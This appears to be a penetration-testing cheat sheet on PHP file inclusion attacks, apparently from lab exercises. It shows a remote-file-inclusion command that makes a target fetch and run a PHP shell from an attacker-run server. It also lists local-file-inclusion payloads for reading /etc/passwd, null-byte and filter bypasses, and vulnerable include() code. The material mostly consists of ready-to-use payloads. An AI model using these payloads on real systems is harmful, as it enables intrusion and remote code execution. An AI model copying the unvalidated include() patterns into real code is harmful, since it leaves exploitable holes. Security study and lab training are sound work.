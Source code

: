 # Remote file inclusion

Start Http Server with python and php shell file

Host:
```console
$ python -m http.server 9001
```
Victim:
```console
$ curl 10.10.148.12/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.14.20.70:9002/shell.php
```

# Local file inclusion

## Payloads

```shell
../../../../etc/passwd
../../../../etc/passwd/.
../../../../etc/passwd%00
....//....//....//....//....//etc/passwd

Example:
http://10.10.13.178/lab6.php?file=THM-profile/../../../../etc/os-release%00
```

## Case 1 | Basic Get request

```php
<?PHP 
	include($_GET["lang"]);
?>
```
A `GET` request via URL parameter `lang` to include the file of the page. This can be calld with:  
`http://homepage.com/index.php?lang=EN.php` to load the `EN.php`.

If there isn't a input validatione, we can read any file e.g. `/etc/passwd`. We can try the following:   
`http://homepage.com/get.php?file=/etc/passwd`.
That is possible because the `include` function has no validation.

## Case 2 | Given directory

```php
<?PHP 
	include("languages/". $_GET['lang']); 
?>
```

The directory is given but if there is no input validation, we can `path traversal` with the following payload  
`http://homepage/index.php?lang=../../../../etc/passwd`

## Null byte

```php
Warning: include(languages/../../../../../etc/passwd.php): failed to open stream: No such file or directory in /var/www/html/website/index.php on line 12
```

We could move outside the php directory but still, the include function reads reads the input with `.php` at the end. This is because the developer specified the file type.  
With a NULL BYTE we can bypass this: `%00` or hex `0x00`
Everthing behing this is beeing ignored. 

**NOTE: the %00 trick is fixed and not working with PHP 5.3.4 and above.**

## Keyword filter

```shell
website/index.php?file=../../../../etc/passwd/.
```

The last `/.` is qual to a simple `cd` so you stay in the same directory
